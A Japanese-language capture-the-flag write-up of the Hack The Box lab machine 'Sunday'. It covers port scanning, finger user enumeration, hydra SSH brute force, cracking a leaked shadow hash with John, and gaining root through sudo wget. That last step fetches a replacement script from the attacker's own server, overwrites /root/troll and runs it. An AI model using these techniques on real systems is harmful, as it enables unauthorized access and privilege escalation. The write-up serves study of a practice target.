


# Sunday

rating:1.4 → 異様に低いけどなぜ

## 調査

* ping確認

```
ping 10.10.10.76
PING 10.10.10.76 (10.10.10.76) 56(84) bytes of data.
64 bytes from 10.10.10.76: icmp_seq=1 ttl=254 time=75.7 ms
```

* nmap

  ```bash
  nmap -sV 10.10.10.76
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-21 09:29 JST
  Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
  Nmap done: 1 IP address (0 hosts up) scanned in 3.71 seconds
  ```

  ```bash
  nmap --script vuln -oA vuln-scan 10.10.10.76
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-21 09:30 JST
  Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
  Nmap done: 1 IP address (0 hosts up) scanned in 13.72 seconds
  ```

  

  * nmapスキャンがブロックされる（ステルススキャンを使ってみる）

  ```bash
  udo nmap -sS 10.10.10.76
  [sudo] kali のパスワード:
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-21 09:36 JST
  Nmap scan report for 10.10.10.76
  Host is up (0.10s latency).                                                           
  Not shown: 997 closed tcp ports (reset)                                               
  PORT    STATE SERVICE
  79/tcp  open  finger
  111/tcp open  rpcbind
  515/tcp open  printer
  ```
  
  * -sVでnmapスキャン
  
  ```bash
  └─$ sudo nmap -sS -sV 10.10.10.76
  [sudo] kali のパスワード:
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-21 12:39 JST
  Nmap scan report for 10.10.10.76
  Host is up (0.099s latency).
  Not shown: 989 closed tcp ports (reset)
  PORT      STATE    SERVICE        VERSION
  79/tcp    open     finger?
  111/tcp   open     rpcbind        2-4 (RPC #100000)
  515/tcp   open     printer
  843/tcp   filtered unknown
  1840/tcp  filtered netopia-vo2
  2725/tcp  filtered msolap-ptp2
  7201/tcp  filtered dlip
  7937/tcp  filtered nsrexecd
  9091/tcp  filtered xmltec-xmlmail
  50389/tcp filtered unknown
  52848/tcp filtered unknown
  1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
  SF-Port79-TCP:V=7.92%I=7%D=7/21%Time=62D8D138%P=x86_64-pc-linux-gnu%r(GetR
  SF:equest,93,"Login\x20\x20\x20\x20\x20\x20\x20Name\x20\x20\x20\x20\x20\x2
  SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20TTY\x20\x20\x20\x20\x20\x20\x20\x2
  SF:0\x20Idle\x20\x20\x20\x20When\x20\x20\x20\x20Where\r\n/\x20\x20\x20\x20
  SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\
  SF:?\?\r\nGET\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
  SF:x20\x20\x20\x20\?\?\?\r\nHTTP/1\.0\x20\x20\x20\x20\x20\x20\x20\x20\x20\
  SF:x20\x20\x20\x20\x20\?\?\?\r\n")%r(Help,5D,"Login\x20\x20\x20\x20\x20\x2
  SF:0\x20Name\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20TT
  SF:Y\x20\x20\x20\x20\x20\x20\x20\x20\x20Idle\x20\x20\x20\x20When\x20\x20\x
  SF:20\x20Where\r\nHELP\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
  SF:\x20\x20\x20\x20\x20\?\?\?\r\n")%r(HTTPOptions,93,"Login\x20\x20\x20\x2
  SF:0\x20\x20\x20Name\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
  SF:20\x20TTY\x20\x20\x20\x20\x20\x20\x20\x20\x20Idle\x20\x20\x20\x20When\x
  SF:20\x20\x20\x20Where\r\n/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
  SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\nHTTP/1\.0\x20\x20\x20\x2
  SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\nOPTIONS\x20\x20\x20\
  SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\n")%r(RTSPReque
  SF:st,93,"Login\x20\x20\x20\x20\x20\x20\x20Name\x20\x20\x20\x20\x20\x20\x2
  SF:0\x20\x20\x20\x20\x20\x20\x20\x20TTY\x20\x20\x20\x20\x20\x20\x20\x20\x2
  SF:0Idle\x20\x20\x20\x20When\x20\x20\x20\x20Where\r\n/\x20\x20\x20\x20\x20
  SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\
  SF:r\nOPTIONS\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
  SF:?\?\?\r\nRTSP/1\.0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
  SF:x20\?\?\?\r\n");
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 1732.30 seconds
  
  ```

↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓以降writeupをみて記載↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓↓

* nmap

```bash
nmap -sC -sV -O -oA initial 10.10.10.76
```

* -sC：デフォルトのnmapスクリプトを動かす
* -sV：detect service version
* -O：detect OS
* -oA：output all formats and store in file initial

```bash
$ sudo nmap -sC -sV -O -oA initial 10.10.10.76
[sudo] kali のパスワード:
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-21 14:09 JST
Nmap scan report for 10.10.10.76
Host is up (0.37s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE    SERVICE    VERSION
79/tcp   open     finger?
|_finger: No one logged on\x0D
| fingerprint-strings:
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|_    RTSP/1.0 ???
111/tcp  open     rpcbind?
515/tcp  open     printer
2401/tcp filtered cvspserver
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port79-TCP:V=7.92%I=7%D=7/21%Time=62D8E3B8%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,93,"Login\x20\x20\x20\x20\x20\x20\x20Name\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20TTY\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20Idle\x20\x20\x20\x20When\x20\x20\x20\x20Where\r\n/\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\
SF:?\?\r\nGET\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\?\?\?\r\nHTTP/1\.0\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\?\?\?\r\n")%r(Help,5D,"Login\x20\x20\x20\x20\x20\x2
SF:0\x20Name\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20TT
SF:Y\x20\x20\x20\x20\x20\x20\x20\x20\x20Idle\x20\x20\x20\x20When\x20\x20\x
SF:20\x20Where\r\nHELP\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\?\?\?\r\n")%r(HTTPOptions,93,"Login\x20\x20\x20\x2
SF:0\x20\x20\x20Name\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20TTY\x20\x20\x20\x20\x20\x20\x20\x20\x20Idle\x20\x20\x20\x20When\x
SF:20\x20\x20\x20Where\r\n/\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\nHTTP/1\.0\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\nOPTIONS\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\r\n")%r(RTSPReque
SF:st,93,"Login\x20\x20\x20\x20\x20\x20\x20Name\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20TTY\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0Idle\x20\x20\x20\x20When\x20\x20\x20\x20Where\r\n/\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\?\?\?\
SF:r\nOPTIONS\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:?\?\?\r\nRTSP/1\.0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\?\?\?\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/21%OT=79%CT=1%CU=31414%PV=Y%DS=2%DC=I%G=Y%TM=62D8E3E
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=109%TI=I%CI=I%II=I%SS=S%TS=
OS:7)OPS(O1=ST11M53ANW2%O2=ST11M53ANW2%O3=NNT11M53ANW2%O4=ST11M53ANW2%O5=ST
OS:11M53ANW2%O6=ST11M53A)WIN(W1=FB37%W2=FB37%W3=FA38%W4=FA3B%W5=FA3B%W6=FFF
OS:7)ECN(R=Y%DF=Y%T=3C%W=FAE0%O=M53ANNSNW2%CC=Y%Q=)ECN(R=N)T1(R=Y%DF=Y%T=3C
OS:%S=O%A=S+%F=AS%RD=0%Q=)T1(R=N)T2(R=N)T3(R=Y%DF=Y%T=3C%W=FA09%S=O%A=S+%F=
OS:AS%O=ST11M53ANW2%RD=0%Q=)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0
OS:%Q=)T4(R=N)T5(R=Y%DF=N%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T5(R=N)T6(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=FF%IPL=7
OS:0%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)U1(R=N)IE(R=Y%DFI=Y%T=FF%CD=S)I
OS:E(R=N)

Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1124.08 seconds

```

* 以下のportスキャンも実施

  ```bash
  nmap -p- -oA full-noscripts 10.10.10.76  --max-retries 0
  ```

  --max-retries：ポートスキャンを再実行する数

  sudoつけて実行したら、portスキャンができて、基本sudoつけた方がよいか？

  ```bash
  $ sudo nmap -p- -oA full-noscripts 10.10.10.76  --max-retries 0
  [sudo] kali のパスワード:
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-21 21:43 JST
  Warning: 10.10.10.76 giving up on port because retransmission cap hit (0).
  Nmap scan report for 10.10.10.76
  Host is up (0.24s latency).
  Not shown: 52714 filtered tcp ports (no-response), 12820 closed tcp ports (reset)
  PORT      STATE SERVICE
  22022/tcp open  unknown                                                                                                                                                      
  Nmap done: 1 IP address (1 host up) scanned in 813.70 seconds  
  ```

  

* サービスが立ち上がっているポートに絞って詳細スキャンを実施する

  ```bash
  nmap -p 79,111,22022,55029 -sV -oA full-scripts 10.10.10.76
  ```

  ```
  sudo nmap -p 79,111,22022,55029 -sV -oA full-scripts 10.10.10.76                      
  [sudo] kali のパスワード:
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-21 22:14 JST
  Nmap scan report for 10.10.10.76
  Host is up (0.41s latency).
  
  PORT      STATE    SERVICE VERSION
  79/tcp    filtered finger
  111/tcp   filtered rpcbind
  22022/tcp filtered unknown
  55029/tcp filtered unknown
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 14.70 seconds
  
  ```

  

## Enumeration

* port79を調査していく。Finger Serviceは、リモートシステムのユーザの情報を確認するためのコマンドということで、rootで試してみる。

  ```bash
  finger root@10.10.10.76
  ```

  ```
  └─$ sudo finger root@10.10.10.76                                                          
  Login       Name               TTY         Idle    When    Where
  root     Super-User            console      <Dec 19, 2021>
  ```

* Pentestemonkey が finger-serviceを通してOSレベルユーザを調査するスクリプトを持っているためそれを実行する。

  ```
  ./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
  ```

  https://pentestmonkey.net/

* 以下サイトを確認。perlと各種モジュールは既にkaliにありそう

  https://pentestmonkey.net/tools/user-enumeration/finger-user-enum

```bash
$ perl --version                                                                        

This is perl 5, version 34, subversion 0 (v5.34.0) built for x86_64-linux-gnu-thread-multi
(with 51 registered patches, see perl -V for more detail)
```

* perlのモジュール一覧を確認

  ```bash
  sudo find `perl -e 'print "@INC"'` -name '*.pm' -print 2>/dev/null
  ```

  サンプルでgrepしたが、対象のモジュールが既にあった。

* perlスクリプトをインストールする

  ```bash
  wget https://pentestmonkey.net/tools/finger-user-enum/finger-user-enum-1.0.tar.gz
  ```

  ```bash
  tar zxf finger-user-enum-1.0.tar.gz
  ```

* スクリプトを実行する。

  * -U：ネームファイルの指定
  * -t：リモートホストを指定

  ```bash
  sudo ./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
  Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )
  
   ----------------------------------------------------------
  |                   Scan Information                       |
   ----------------------------------------------------------
  
  Worker Processes ......... 5
  Usernames file ........... /usr/share/seclists/Usernames/Names/names.txt
  Target count ............. 1
  Username count ........... 10177
  Target TCP port .......... 79
  Query timeout ............ 5 secs
  Relay Server ............. Not used
  
  ######## Scan started at Thu Jul 21 22:37:58 2022 #########
  admin@10.10.10.76: Login       Name               TTY         Idle    When    Where..adm      Admin                              < .  .  .  . >..dladm    Datalink Admin                     < .  .  .  . >..netadm   Network Admin                      < .  .  .  . >..netcfg   Network Configuratio               < .  .  .  . >..dhcpserv DHCP Configuration A               < .  .  .  . >..ikeuser  IKE Admin                          < .  .  .  . >..lp       Line Printer Admin                 < .  .  .  . >..
  anne marie@10.10.10.76: Login       Name               TTY         Idle    When    Where..anne                  ???..marie                 ???..
  bin@10.10.10.76: bin             ???                         < .  .  .  . >..
  dee dee@10.10.10.76: Login       Name               TTY         Idle    When    Where..dee                   ???..dee                   ???..
  ike@10.10.10.76: ikeuser  IKE Admin                          < .  .  .  . >..
  jo ann@10.10.10.76: Login       Name               TTY         Idle    When    Where..ann                   ???..jo                    ???..
  la verne@10.10.10.76: Login       Name               TTY         Idle    When    Where..la                    ???..verne                 ???..
  line@10.10.10.76: Login       Name               TTY         Idle    When    Where..lp       Line Printer Admin                 < .  .  .  . >..
  message@10.10.10.76: Login       Name               TTY         Idle    When    Where..smmsp    SendMail Message Sub               < .  .  .  . >..                                 
  miof mela@10.10.10.76: Login       Name               TTY         Idle    When    Where..mela                  ???..miof                  ???..                                     
  sammy@10.10.10.76: sammy           ???            ssh          <Apr 13 13:38> 10.10.14.13         ..                                                                                
  sunny@10.10.10.76: sunny           ???            ssh          <Apr 13 13:52> 10.10.14.13         ..                                                                                
  zsa zsa@10.10.10.76: Login       Name               TTY         Idle    When    Where..zsa                   ???..zsa                   ???..
  ######## Scan completed at Thu Jul 21 23:28:44 2022 #########
  13 results.
  
  10177 queries in 3046 seconds (3.3 queries / sec)
  
  
  ```

  * sammyとsunnyがSSHでのログインに成功している。

## Initial Foothold

* SSHが開いていて２つのユーザネームがあるため、brute-forceでるログイン試行を試みる。hydraを利用する。

  ```bash
  hydra -l sunny -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
  ```

  * -l: username
  * -P：password file
  * -s: port
  * 以下エラーが発生

  ```
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-21 23:41:44
  [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
  [ERROR] Compiled without LIBSSH v0.4.x support, module is not available!
  
  ```

  ・以下でエラー解消した

  ```
  git clone https://github.com/vanhauser-thc/thc-hydra.git 
  sudo apt install libssh-dev 
  cd thx_hydra
  sudo make clean
  sudo ./configure 
  sudo make install
  ```

  https://www.youtube.com/watch?v=DIvULLqbKCk

  

  sunnyのパスワードはsunday

  * SSHしてみる

  

  →witeupとは異なりできてしまった。

## Privilege Escalation

* 以下コマンドを実行

```bash
sunny@sunday:/home/sammy$ sudo -l
ユーザー sunny は sunday 上で コマンドを実行できます
    (root) NOPASSWD: /root/troll
```

```bash
sunny@sunday:/home/sammy$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

→何らかのシェルが実行されrootのidが表示されている

* /backupディレクトリに複数のバックアップあり。

```bash
sunny@sunday:/backup$ ls
agent22.backup  shadow.backup
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

→shadowファイルである。

* Sammyのパスワードをハッシュファイルとして保存し、johnコマンドを利用してパスワードを取得する。

```bash
john sammy-hash.txt --show
```

* テキストファイルにはshadowの出力をそのままのフォーマットで張った方が結果が見やすい
* --showで途中経過が見える。長い時に途中でqできるように。

[John the Ripper password cracker](https://www.openwall.com/john/)

```
Using default input encoding: UTF-8        
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 128/128 AVX 4x])                         
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (?)     
1g 0:00:01:21 DONE (2022-07-22 22:22) 0.01222g/s 2491p/s 2491c/s 2491C/s daddyzgurl..chrystelle
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

* sammyにスイッチする。

```bash
su - sammy
```

* sudo権限のあるコマンドを確認する

```bash
sudo -l

-bash-4.4$ sudo -l
ユーザー sammy は sunday 上で コマンドを実行できます
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```

```
sudo wget -i /root/root.txt
```

→Writeupとは異なり、うまくDNSができず、URLを生成できなかった。

* root権限奪取をする。以下流れで行う
  * sammyがwgetのsudo権限を持っているので/root/trollのスクリプトの中身を書き換える
  * sunnyが/root/trollの実行権限を持っているので書き換えたスクリプトを実行する

まずkaliのディレクトリでtrollを作り、サーバーを立ち上げる

```bash
touch troll
vi troll

# ファイルの中身
!#/bin/usr/bash
bash

python -m http.server 5555
```

Sundayのサーバーで以下コマンドを実行する。

```bash
sudo wget -O /root/troll http://10.10.16.3:5555/troll; sudo /root/troll
```

※確かめたところsammyでも/root/trollを実行できた。
※定期的にtrollが上書きされているようで何度か失敗したが、コマンドを連続実行することでroot奪取に成功した。

```bash
root@sunday:/home/sammy# cat /root/root.txt
fb40fab61d99d37536daeec0d97af9b8 
```

## 所感

* 10.10.10.76にSSHしてからのサーバーの動作が遅すぎてイライラした。
* fingerサービスが稼働していたらusernameを探ってみる。
  * brute-forceして、見つかったユーザでfingerの流れ
* nmapは、ポートをある程度確認してからポートを絞って詳細情報を確認すると早い
* escalationのとき、sudo -lでユーザのsudo権限を確認できる
* wgetをうまく使うことでroot奪取できるテクニックはぜひ覚えたい
